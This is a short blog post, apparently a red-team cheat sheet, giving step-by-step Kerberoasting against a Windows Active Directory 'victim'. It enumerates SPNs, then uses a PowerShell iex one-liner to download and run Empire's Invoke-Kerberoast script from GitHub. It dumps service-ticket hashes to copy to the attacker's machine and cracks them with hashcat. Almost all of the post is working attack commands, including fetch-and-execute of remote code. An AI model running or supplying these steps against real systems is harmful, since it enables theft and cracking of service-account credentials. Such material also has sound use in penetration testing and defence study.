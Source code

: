 ```yaml
---
layout: post
title: Kerberoasting using Powershell
description: Kerberoasting using Powershell
summary: Kerberoasting using Powershell
tags: [foothold,windows,ad,kerberos]
minute: 1
---
```

## Overview
This will request a service ticket for an account and acquire a hash using powershell.

## Requirement
* You have access to the victim’s windows machine
* Powershell is installed

## Steps
* Extract SPNs (mapping between service and account)

```powershell
setspn -T medin -Q */*
```

* Get powershell script

```powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1')
```

* Run script and copy hash to attacker’s machine

```powershell
Invoke-Kerberoast -OutputFormat hashcat |fl
```

* Sample output

![](/spindel/assets/Kerberoasting%20using%20Powershell/X2lGkzF.png)

* Crack hash using hashcat (mode kerberos 5 TGS-REP etype 23)

```bash
hashcat -m 13100 - a 0 hash.txt wordlist --force
```

## Alternative
* [Kerberoasting - Red Teaming Experiments](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1208-kerberoasting)